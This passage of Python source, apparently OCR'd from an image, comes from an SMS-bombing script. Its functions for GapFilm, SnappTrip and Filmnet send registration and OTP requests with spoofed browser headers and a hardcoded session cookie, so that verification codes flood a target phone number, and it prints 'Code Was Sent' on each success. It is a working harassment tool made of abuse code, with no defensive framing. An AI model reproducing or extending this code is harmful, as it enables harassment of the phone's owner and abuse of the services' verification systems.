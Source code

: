         if gaR['Code'] == 1:
            print(f'{g}(GapFilm) {w}Code Was Sent')
            return True
    except:
        pass
def sTrip(phone):
    sTripH = {"Host": "www.snapptrip.com","User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0","Accept": "*/*","Accept-Language": "fa","Accept-Encoding": "gzip, deflate, br","Content-Type": "application/json; charset=utf-8","lang": "fa","X-Requested-With": "XMLHttpRequest","Content-Length": "134","Origin": "https://www.snapptrip.com","Connection": "keep-alive","Referer": "https://www.snapptrip.com/","Cookie": "route=1597937159.144.57.429702; unique-cookie=KViXnCmpkTwY7rY; appid=g*-**-*; ptpsession=g--196189383312301530; _ga=GA1.2.118271034.1597937174; _ga_G8HW6QM8FZ=GS1.1.1597937169.1.0.1597937169.60; _gid=GA1.2.561928072.1597937182; _gat_UA-107687430-1=1; analytics_campaign={%22source%22:%22google%22%2C%22medium%22:%22organic%22}; analytics_session_token=445b5d83-abeb-7ffd-091e-ea1ce5cfcb52; analytics_token=2809eef3-a3cf-7b9c-4191-8d8be8e5c6b7; yektanet_session_last_activity=8/20/2020; _hjid=b1148e0d-8d4b-4a3d-9934-0ac78569f4ea; _hjAbsoluteSessionInProgress=0; MEDIAAD_USER_ID=6648f107-1407-4c83-97a1-d39c9ec8ccad","TE": "Trailers"}
    sTripD = {"lang":"fa","country_id":"860","password":"snaptrippass","mobile_phone":"0"+phone.split("+98")[1],"country_code":"+98","email":"example@gmail.com"}
    try:
        sTripR = post(timeout=5, url='https://www.snapptrip.com/register', headers=sTripH, json=sTripD).json()
        if sTripR['status_code'] == 200:
            print(f'{g}(Strip) {w}Code Was Sent')
            return True
    except:
        pass

def filmnet(phone):
    fnU = f"https://api-v2.filmnet.ir/access-token/users/{phone}/otp"
    fNh = {'Connection': 'keep-alive',
    'Accept': 'application/json, text/plain, */*',
    'DNT': '1',
    'X-Platform': 'Web',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36',
    'Origin': 'https://filmnet.ir',
    'Sec-Fetch-Site': 'same-site',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://filmnet.ir/',
    'Accept-Language': 'fa,en-US;q=0.9,en;q=0.8',
    'Cache-Control': 'no-cache',
    'Accept-Encoding': 'gzip, deflate'}
    try:
        Filmnet = get(timeout=5, url=fnU, headers=fNh).json()
        if Filmnet['meta']['operation_result'] == 'success':
            print(f'{g}(Filmnet) {w}Code Was Sent')
            return True
    except:
        pass
